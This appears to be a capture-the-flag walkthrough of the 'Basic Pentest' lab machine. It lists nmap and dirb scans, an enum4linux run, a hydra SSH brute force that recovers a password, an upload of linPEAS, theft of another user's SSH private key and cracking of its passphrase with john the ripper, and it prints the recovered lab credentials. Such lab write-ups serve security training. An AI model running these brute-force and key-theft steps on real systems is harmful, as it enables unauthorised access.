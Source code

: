 # Basic Pentest CTF

attack machine = 10.10.140.158

## Data Gathering

- Run a ping scan to insure machine is up
    
    `ping -c 3 10.10.140.158`

- Run nmap scan to discover services running
    
    `nmap -sC -sV -oN init_scan 10.10.140.158`

```console
└─$ nmap -sC -sV -oN init_scan 10.10.140.158
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-12 14:20 EDT
Nmap scan report for 10.10.140.158
Host is up (0.13s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http-proxy
| fingerprint-strings: 
|   Kerberos, TLSSessionReq: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 2243
|     Date: Wed, 12 Oct 2022 18:22:20 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
```

- Run dirbuster to get info on potential directories for website
    
    `dirb http://10.10.140.158/ /usr/share/wordlists/dirb/common.txt`

```console
---- Scanning URL: http://10.10.140.158/ ----
==> DIRECTORY: http://10.10.140.158 development/                                                                    
+ http://10.10.140.158/index.html (CODE:200 SIZE:158)                                                               
+ http://10.10.140.158/server-status (CODE:403|SIZE:301)                                                            
```

discovered conversations under the /development directory

```vim
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too. Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```vim
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials, and I was able to crack your hash really easily. You know our password policy, so please follow it? Change that password ASAP.

-K
```

- Run enum4linux to gather potential usernames that can help brute-force SMB.
   
   `enum4linux -a 10.10.140.158 | tee enum4linux.log`

based on infor gathered from the dev directory i found 2 usernames that could be useful _kay_ and _jan_.

- Run hydra to brute force SSH login using _jan_
    
    `hydra -Vf -l jan -P /usr/share/wordlists/rockyou.txt 10.10.140.158 ssh`

```console
[22][ssh] host: 10.10.140.158   login: jan   password: armando
```

- SSH into jan using login info
    
    `SSH jan@10.10.140.158`

- Do some enumeration to gather information

since we have ssh access we can do a secure copy (scp) of tools we could use such as linPEAS.

ATTACK MACHINE
_I downloaded the latest release of linpeas.sh into the directoy i was working in so i didn't need to provide a path. I copied the script to /dev/shm as its a means of passing data between programs_

`scp linpeas.sh jan@10.10.140.158:/dev/shm`

TARGET MACHINE
Once i know its properly copied over i insure the script is executable
    
    `chmod 777 linpeas.sh`

Then run the script
    
    `./linpeas.sh`

Going through the information, there is a possible private SSH key we can use for _kay_ which could give us access to there machine. pull the readable id_rsa key 
    
`cd /home/kay/.ssh`

open the file and copy it to a new file on your host machine. change permissions so only you can open it `chmod 600 kay_rsa_key`

Kay's SSH requires a passphrase which we don't have...
```console
└─$ ssh -i kay_rsa_key kay@10.10.140.158
Enter passphrase for key 'kay_rsa_key': 
```

We have to use john the ripper to brute-force our way in. first we need information related to the ssh key through john.

`ssh2john kay_rsa_key > kayforjohn.txt`

Then using that file we enter it into the main john the ripper with a wordlist.

`john kayforjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt`

```console
─$ john kayforjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt                                              1 ⚙
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_rsa_key)     
1g 0:00:00:00 DONE (2022-10-12 17:08) 25.00g/s 2068Kp/s 2068Kc/s 2068KC/s betzabeth..beba21
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- SSH into kay using the passphrase _beeswax_
   
   `SSH -i kay_rsa_key kay@10.10.140.158`

- Read the _pass.bak_ file for the password
*heresareallystrongpasswordthatfollowsthepasswordpolicy$$*
